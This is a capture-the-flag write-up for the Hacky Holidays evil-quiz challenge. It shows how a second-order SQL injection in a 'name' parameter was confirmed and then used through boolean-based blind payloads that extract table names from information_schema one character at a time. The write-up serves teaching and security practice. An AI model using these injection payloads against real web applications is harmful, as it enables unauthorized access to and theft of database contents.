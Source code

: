 Got the response in https://hackyholidays.h1ctf.com/evil-quiz/score endpoint saying

"***There is 1 other player(s) with the same name as you!***"

But adding ' at the end of name got the response "***There is 0 other player(s) with the same name as you!***"

and I believed "name" parameter is vulnerable to second order sql  injection. 

now we need to fix the query to confirm the sql injection
Adding   --        as comment  didn't work
Adding   --+-   as comment didn't work
Adding    #          as comment worked

So I confirmed this parameter is probably vulnerable to second order sql  injection. For further exploitation,I run sqlmap but didn't success. ( may be I missed something with sqlmap )

Then I decided to do manual injection with boolean based as I was lazy to automate by writing own script .

Getting table
```
Request

name = lol'+or+Ascii(substring((Select+concat(table_name)from+information_schema.tables+where+table_schema=database()+limit+0,1),1,1))<100#

Response

There is 769468 other player(s) with the same name as you!
```
It means **TRUE** that the ASCII value of table_name's first character is less than 100 and we need to specify more
```
Request

name=lol'+or+Ascii(substring((Select+concat(table_name)from+information_schema.tables+where+table_schema=database()+limit+0,1),1,1))<90#

Response

There is 0 other player(s) with the same name as you!
```

It means **FALSE** that the ASCII value of table_name's first character isn't less than 90 so we can confirm the first character is between 90-100.

By trying each number, we found the valid one.

```
name=lol'+or+Ascii(substring((Select+concat(table_name)from+information_schema.tables+where+table_schema=database()+limit+0,1),1,1))=97#

TRUE
```
97 is the value of  [ASCII](https://www.ascii-code.com/) character "a" so we know that the first character of table name is "a".
